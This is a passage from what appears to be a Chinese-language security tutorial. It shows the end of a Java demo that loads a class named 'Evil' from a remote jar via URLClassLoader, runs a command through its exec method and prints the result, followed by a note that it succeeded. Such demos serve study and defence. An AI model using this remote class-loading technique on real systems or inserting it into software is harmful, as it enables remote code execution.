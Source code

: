 ```java

            // 通过URLClassLoader加载远程jar包中的Evil类
            Class cmdClass = ucl.loadClass("Evil");

            // 调用Evil类中的exec方法
            String out = (String) cmdClass.getMethod("exec", String.class).invoke(null, cmd);

            // 输出命令执行结果
            System.out.println(out);

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```

成功执行![](https://image-1257110520.cos.ap-beijing.myqcloud.com/old/202205091855178.png)





# 0x06 实验环境